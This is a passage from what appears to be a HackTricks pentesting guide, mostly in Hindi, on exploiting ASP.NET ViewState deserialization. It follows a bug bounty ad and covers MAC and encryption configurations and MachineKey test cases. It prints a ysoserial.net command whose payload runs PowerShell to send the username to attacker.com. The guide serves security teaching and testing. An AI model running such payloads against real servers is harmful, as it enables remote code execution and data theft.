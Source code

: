 **Bug bounty tip**: **sign up** for **Intigriti**, a premium **bug bounty platform created by hackers, for hackers**! Join us at [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) today, and start earning bounties up to **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## What is ViewState

**ViewState** ASP.NET में वेब पृष्ठों के बीच पृष्ठ और नियंत्रण डेटा बनाए रखने के लिए डिफ़ॉल्ट तंत्र के रूप में कार्य करता है। एक पृष्ठ के HTML के रेंडरिंग के दौरान, पृष्ठ की वर्तमान स्थिति और पोस्टबैक के दौरान संरक्षित किए जाने वाले मानों को base64-encoded स्ट्रिंग्स में सीरियलाइज़ किया जाता है। ये स्ट्रिंग्स फिर छिपे हुए ViewState फ़ील्ड में रखी जाती हैं।

ViewState जानकारी को निम्नलिखित गुणों या उनके संयोजनों द्वारा वर्णित किया जा सकता है:

* **Base64**:
* यह प्रारूप तब उपयोग किया जाता है जब `EnableViewStateMac` और `ViewStateEncryptionMode` गुण दोनों को false पर सेट किया गया हो।
* **Base64 + MAC (Message Authentication Code) Enabled**:
* MAC को सक्रिय करने के लिए `EnableViewStateMac` गुण को true पर सेट किया जाता है। यह ViewState डेटा के लिए अखंडता सत्यापन प्रदान करता है।
* **Base64 + Encrypted**:
* एन्क्रिप्शन तब लागू होता है जब `ViewStateEncryptionMode` गुण को true पर सेट किया जाता है, जिससे ViewState डेटा की गोपनीयता सुनिश्चित होती है।

## Test Cases

छवि ASP.NET में ViewState के विभिन्न कॉन्फ़िगरेशन का एक तालिका है जो .NET फ्रेमवर्क संस्करण पर आधारित है। यहाँ सामग्री का सारांश है:

1. **किसी भी संस्करण के लिए .NET**, जब MAC और एन्क्रिप्शन दोनों अक्षम होते हैं, तो MachineKey की आवश्यकता नहीं होती है, और इसलिए इसे पहचानने के लिए कोई लागू विधि नहीं है।
2. **4.5 से नीचे के संस्करणों के लिए**, यदि MAC सक्षम है लेकिन एन्क्रिप्शन नहीं है, तो MachineKey की आवश्यकता होती है। MachineKey की पहचान करने की विधि को "Blacklist3r" कहा जाता है।
3. **4.5 से नीचे के संस्करणों के लिए**, चाहे MAC सक्षम हो या अक्षम, यदि एन्क्रिप्शन सक्षम है, तो MachineKey की आवश्यकता होती है। MachineKey की पहचान करना "Blacklist3r - Future Development" का कार्य है।
4. **4.5 और उससे ऊपर के संस्करणों के लिए**, MAC और एन्क्रिप्शन के सभी संयोजनों (चाहे दोनों सत्य हों, या एक सत्य हो और दूसरा असत्य) के लिए MachineKey की आवश्यकता होती है। MachineKey की पहचान "Blacklist3r" का उपयोग करके की जा सकती है।

### Test Case: 1 – EnableViewStateMac=false and viewStateEncryptionMode=false

यह संभव है कि ViewStateMAC को पूरी तरह से अक्षम किया जाए, `AspNetEnforceViewStateMac` रजिस्ट्री कुंजी को शून्य पर सेट करके:
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{VersionHere}
```
**ViewState विशेषताओं की पहचान करना**

आप BurpSuite के साथ इस पैरामीटर को शामिल करने वाले अनुरोध को कैप्चर करके यह पहचानने की कोशिश कर सकते हैं कि क्या ViewState MAC से सुरक्षित है। यदि Mac का उपयोग पैरामीटर की सुरक्षा के लिए नहीं किया गया है, तो आप [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net) का उपयोग करके इसका लाभ उठा सकते हैं।
```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName"
```
### Test case 1.5 – Like Test case 1 but the ViewState cookie isn't sent by the server
